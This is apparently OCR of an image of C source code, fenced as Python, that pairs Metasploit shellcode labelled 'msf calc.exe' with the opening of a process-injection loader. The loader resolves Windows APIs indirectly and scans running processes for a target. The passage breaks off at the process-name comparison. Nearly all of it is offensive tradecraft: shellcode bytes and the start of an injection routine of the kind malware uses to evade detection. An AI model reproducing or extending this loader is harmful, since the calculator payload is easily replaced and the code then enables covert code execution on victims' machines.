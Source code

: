 ```py

int main()
{
    /* msf calc.exe */
	char shellcode[] = {
		0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51,
		0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52,
		0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
		0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0xe2, 0xed,
		0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88,
		0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
		0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 0x88, 0x48,
		0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1,
		0x38, 0xe0, 0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
		0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49,
		0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a,
		0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
		0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00,
		0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b,
		0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
		0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47,
		0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e,
		0x65, 0x78, 0x65, 0x00
	};
	
    PROCESSENTRY32W Process			= { .dwSize = sizeof( PROCESSENTRY32W ) };
	HANDLE			hSnapshot		= 0,
					hProcess		= 0,
					hThread			= 0;
	PVOID			pShellcode		= 0;
	SIZE_T			BytesWritten	= 0;
	DWORD			OldProtection	= 0;
	
    if (!InitApiCalls())
		return -1;
	
    hSnapshot = EXEC( Kernel32, CreateToolhelp32Snapshot ) ( TH32CS_SNAPPROCESS, 0 );
	EXEC( Kernel32, Process32FirstW ) ( hSnapshot, &Process );
	
    do 
	{
		if ( Process.th32ProcessID && Process.szExeFile ) 
		{
			if ( EXEC( Ntdll, wcscmp ) (Process.szExeFile, TARGET_PROCESS ) == 0 )
			{
```